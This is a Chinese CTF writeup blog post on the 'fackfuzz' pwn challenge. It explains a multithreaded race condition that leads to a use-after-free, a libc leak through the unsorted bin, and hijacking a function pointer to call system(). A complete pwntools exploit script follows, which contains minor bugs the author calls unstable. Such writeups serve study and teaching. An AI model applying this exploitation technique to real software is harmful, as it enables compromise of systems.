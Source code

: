 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
	---->fack driver fuzzing<----
	1. add a driver to fuzz
	2. prepare fuzz data
	3. start fuzzing
	4. stop fuzzing
	5. view driver list
	6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

	void __fastcall __noreturn freethread(void *a1)
	{
	  int idx; // [rsp+1Ch] [rbp-4h]@1
	
	  idx = *(_DWORD *)a1;
	  currentidx = idx;
	  isstop[idx] = 1;
	  free(ptr[idx]);
	  puts("wait for fuzz thread done");
	  sleep(3u);
	  ptr[idx] = 0LL;
	  if ( threadnum < 0 )
	    threadnum = 0;
	  free(data[idx]);
	  data[idx] = 0LL;
	  puts("stop this fuzz done!");
	  pthread_exit(0LL);
	}

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
	__int64 stopfuzz()
	{
	  signed int i; // [rsp+Ch] [rbp-74h]@3
	  char s2; // [rsp+10h] [rbp-70h]@1
	  __int64 v3; // [rsp+78h] [rbp-8h]@1
	
	  v3 = *MK_FP(__FS__, 40LL);
	  puts("input the driver name to stop fuzzing:");
	  readn((__int64)&s2, 0x68uLL);
	  if ( (unsigned int)checkname(&s2) )
	  {
	    for ( i = 0; i <= 9; ++i )
	    {
	      if ( ptr[i] && !strcmp(ptr[i], &s2) )
	      {
	        stop(i);
	        return *MK_FP(__FS__, 40LL) ^ v3;
	      }
	    }
	    puts("error name");
	  }
	  else
	  {
	    puts("invalid name");
	  }
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
	from pwn import *;
	from time import sleep;
	port=8888
	objname = "fackfuzz"
	objpath = "./"+objname
	io = process(objpath)
	
	def readuntil(delim):
	    data = io.recvuntil(delim);
	    print data;
	    return data;
	
	def readlen(len):
	    data = io.recv(len,1);
	    return data;
	
	def readall():
	    data = io.recv(4096,1);
	    print data;
	    return data;
	
	def write(data):
	    sleep(0.05)
	    io.send(str(data));
	    
	def writeline(data):
	    sleep(0.05)
	    io.sendline(str(data));
	
	def padding(size):
	    cf = "/bin/shcat/home/ctf/flag";
	    paddata = "";
	    for i in range(size):
	        paddatax += cf[i%len(cf)];
	    return paddata;
	
	def newdriver(name):
	    writeline(1);
	    writeline(name)
	    readall()
	def prepare(readsize,readdata):
	    writeline(2);
	    writeline(readsize);
	    writeline(readdata);
	    writeline(2);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    readall()
	def startfuzz(name):
	    writeline(3);
	    writeline(name);
	    readall();
	def stopfuzz(name):
	    writeline(4);
	    writeline(name);
	    readall();
	def viewdriver():
	    writeline(5);
	    print readuntil(":");
	    return readuntil("\n")[:-1];
	    	
	def attack(ip=0):
	    global io
	    if ip != 0:
	        io = remote(ip,port)
	    newdriver("/dev/haha1");
	    prepare(10,"haha1")
	    prepare(50,"cat flag > /dev/fd/1\x00")
	    stopfuzz("/dev/haha1");
	    usortbin=viewdriver();
	    usortbin=usortbin+(8-len(usortbin))*'\x00';
	    usortbin=u64(usortbin);
	    system=usortbin-0x378178
	    print hex(system);
	    newdriver("/dev/haha3");0x01e36010
	    stopfuzz("/dev/haha3");
	    sleep(4)
	    
	    payload="/dev/haha4\x00"
	    payload+=(0x68-len(payload))*"A";
	    payload+=p64(system)*3;
	    prepare(0x88,payload);
	    print viewdriver()
	    
	    startfuzz("/dev/haha4");
	    sleep(3)
	    readall()＃get flag

	attack()
```

**此exploit理论上应该完全没问题，但是实际攻击的时候却不是很稳定，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**